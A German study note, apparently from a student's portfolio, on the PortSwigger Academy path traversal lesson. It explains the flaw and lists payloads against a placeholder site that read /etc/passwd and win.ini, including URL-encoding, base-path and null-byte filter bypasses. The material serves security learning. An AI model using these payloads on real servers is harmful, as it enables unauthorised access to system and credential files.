

repository: IamNico42/portfolio · page: studium/Cyber-Security Praxissemester/Portswigger-Academy/Path traversal/1. Path Traversal/index.html · generator: mkdocs

---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/PSS
---
## Was ist Path traversal

Auch bekannt als Directory Traversal. Mit der kann man im schlimmsten Fall Zugriff zu Files außerhalb des Webseiten-Bereichs erreichen und sogar das System oder die komplette App verändern.

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

z. B. eine Seite lädt ein Bild wie folgt.
```html
<img src="/loadImage?filename=218.png">
```

dann könnte man das wie folgt nutzen
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

Manchmal muss man die Pfade auch etwas anpassen. 
z. B.
`....//....//....//etc/passwd`
`etc/passwd`

##### Bypassing Sanatization

**Encoding**
Mit URL Encoding kann man den gewünschten Pfad auch wieder encoden um solche sanitizations zu bypassen
`..%252f..%252f..%252fetc/passwd`
oder auch als ganzes
`%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32fetc/passwd`
oder auch komplett inkl. etc/passwd encoden.

**Expected Base Pfad**
Manchmal kann es auch sein, dass ein Mechanismus verlangt, dass es mit einem bestimmten Base Pfad startet. Das sieht dann wie folgt aus.
z. B.
`/var/www/images`
dann setzen wir sowas wie.
`filename=/var/www/images/../../../etc/passwd`

> [!note] Tool-Tipp
> Hackvertor Extension verwenden zum encoden

![[path_traversal1.PNG|700]]
**Expected File Extension**
Ebenfalls gilt das für Dateiendungen. Es kann z. B. sein, dass nur `.png` verwendet werden darf. Dann baut man sowas wie:
`filename=../../../etc/passwd%00.png`
- `%00`: bedeutet Nullbyte also `\0` und bei vielen Low-Level C API's gilt das als Ende der Zeichenkette.
